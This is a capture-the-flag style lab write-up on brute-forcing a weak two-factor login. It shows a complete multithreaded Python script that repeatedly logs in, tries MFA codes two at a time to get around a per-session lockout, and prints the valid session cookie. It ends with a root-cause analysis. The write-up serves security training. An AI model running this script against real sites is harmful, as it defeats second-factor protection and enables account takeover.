

# Authentication-1

---

### **2FA bypass using a brute-force attack (Expert)**

---

#### Description:

#### This lab's two-factor authentication is vulnerable to brute-forcing. You have already obtained a valid username and password, but do not have access to the user's 2FA verification code. To solve the lab, brute-force the 2FA code and access Carlos's account page.

#### Victim's credentials: `carlos:montoya`

---

- Already know what to do, I access the lab.
    
    
    
- Notice the application set cookie when I’ve just arrived.
    
    
    
- Then I attempt to login with the given credential.
    
    
    
- When I’m on the login form and haven’t submitted yet, the response body shows a CSRF token.
    
    
    
- That CSRF token is used here when I click the login button. From this stage, the application set a new session cookie, indicating this account is in the stage of preparing to enter MFA code.
    
    
    
- After that I got redirected to the login-phase-2.
    
    
    
- And another CSRF token appears to be used when submitting the MFA code.
    
    
    
- I try 1234 and fail the first attempt.
    
    
    
- The response body shows that I’m still be able to enter another code
    
    
    
- But once I fail the second attempt, it force me to login again. So I can’t brute-force it in normal way.
    
    
    
- By setting a new session cookie (phase-1-session I guess), it successfully logged me out.
    
    
    
- But after that, I just need to login again and have 2 more attempts with the MFA code, this means the application still keep the MFA code for a while (otherwise we will never enter the correct code with just 2 attempts) and only log me out to prevent brute-forcing (in normal way of course).
- I’ll play by its rule then. Login → Enter code 2 times → Fail → Login again → Continue the loop.
- (If you follow the instruction of the lab, in the worst scenario, it would take you about 1 hour or even more)
- So I’m gonna use Python script to do this faster, I use AI to create the script for me, here’s the core context of the prompt. (my real prompt contains the entire request and response)
    - I need a python script to brute-force MFA code of a lab, following these instructions:
    - `GET /` to gather the session cookie.
    - Then `GET /login` to capture the CSRF token in the response body.
    - Then `POST /login` will use that CSRF token follow with the credential, and from here the application set a new session cookie.
    - The new session cookie will be use form `GET /login2` , and also new CSRF token appears in this request’s response.
    - Finally, `POST /login2` is where I need to brute-force using the new CSRF token.
    - After 2 times incorrect, the app will force me to login again by setting new session cookie.
    - When successful, the status code will be 302, print out the code and the valid session cookie
    - Use multi-threading.
- After few more chat to adjust the code, here’s the final version (~700 attempts/1 min):
    
    ```python
    import re
    import threading
    import requests
    from concurrent.futures import ThreadPoolExecutor, as_completed
    BASE = "https://[YOUR_LAB_ID].web-security-academy.net"
    USERNAME = "carlos"
    PASSWORD = "montoya"
    CSRF_RE = re.compile(r'name="csrf" value="([^"]+)"')
    MAX_WORKERS = 30  #  Adjust this based on the server condition
    found_event = threading.Event()
    found_code = None
    found_session_cookie = None
    progress_lock = threading.Lock()
    progress_count = 0
    total = 10000 # Set max range here
    
    def get_csrf(html: str) -> str:
        m = CSRF_RE.search(html)
        if not m:
            raise Exception("CSRF token not found")
        return m.group(1)
        
    def full_login(session: requests.Session) -> str:
        """Login credential from the start, return csrf token for /login2."""
        r = session.get(f"{BASE}/login")
        csrf = get_csrf(r.text)
        session.post(
            f"{BASE}/login",
            data={"csrf": csrf, "username": USERNAME, "password": PASSWORD},
            headers={"Referer": f"{BASE}/login"},
        )
        r = session.get(f"{BASE}/login2", headers={"Referer": f"{BASE}/login"})
        return get_csrf(r.text)
        
    def try_mfa(session: requests.Session, csrf: str, code: str):
        return session.post(
            f"{BASE}/login2",
            data={"csrf": csrf, "mfa-code": code},
            headers={"Referer": f"{BASE}/login2"},
            allow_redirects=False,
        )
        
    def is_success(r) -> bool:
        return r.status_code == 302
        
    def still_on_mfa_page(r) -> bool:
        return "name=mfa-code" in r.text
        
    def worker(pair_start: int):
        global found_code, found_session_cookie, progress_count
        if found_event.is_set():
            return
        codes = [f"{pair_start:04d}", f"{pair_start + 1:04d}"]
        session = requests.Session()
        adapter = requests.adapters.HTTPAdapter(pool_connections=MAX_WORKERS, pool_maxsize=MAX_WORKERS)
        session.mount("https://", adapter)
        try:
            csrf2 = full_login(session)
        except Exception as e:
            print(f"[!] Login error {codes}: {e}")
            return
        for code in codes:
            if found_event.is_set():
                return
            r = try_mfa(session, csrf2, code)
            if is_success(r):
                found_code = code
                # session cookie after 302 (logged in)
                found_session_cookie = session.cookies.get("session")
                found_event.set()
                return
            if still_on_mfa_page(r):
                csrf2 = get_csrf(r.text)
                continue
            # redirected to /login (incorrect 2 times)
            break
        with progress_lock:
            progress_count += 1
            current = progress_count
        print(f"[progress] (~{current * 2}/{total})")
        
    def main():
        pair_starts = range(0, total, 2)
        with ThreadPoolExecutor(max_workers=MAX_WORKERS) as executor:
            futures = [executor.submit(worker, i) for i in pair_starts]
            for f in as_completed(futures):
                if found_event.is_set():
                    break
        if found_code:
            print(f"\n[+] MFA-CODE = {found_code}")
            print(f"[+] VALID COOKIE: {found_session_cookie}")
        else:
            print("\n[-] Not found in the defined range")
    if __name__ == "__main__":
        main()
    
    ```
    
- Run the script and wait for about 2 mins in my case (If you’re lucky enough), I got the result.
    
    
    
- Replace the session cookie with what I found, the refresh the application, go to `my account` and the lab has been solved.
    
    
    
- **Root cause:**
    - Weak lockout mechanism: the app only limits attempts within a
    single session (2 tries) instead of tracking failed attempts per
    account/user over time. Since a fresh login resets the attempt
    counter, an attacker can simply repeat "login → try 2 codes → login
    again" indefinitely, turning a seemingly rate-limited endpoint into
    an effectively unlimited brute-force target.
    - MFA code persists across the forced re-login: after triggering the
    lockout, the server doesn't invalidate/regenerate the MFA code tied
    to that account. This is what makes the loop exploitable at all: if
    a new code were generated on every login, each 2-attempt batch
    would be testing a different, unrelated code and progress would
    never accumulate.
    - Combined effect: valid credentials + a static MFA code + a
    per-session (not per-account) attempt limit reduces 2FA to roughly
    the same brute-forceable difficulty as a 4-digit PIN, defeating the
    entire purpose of the second factor.
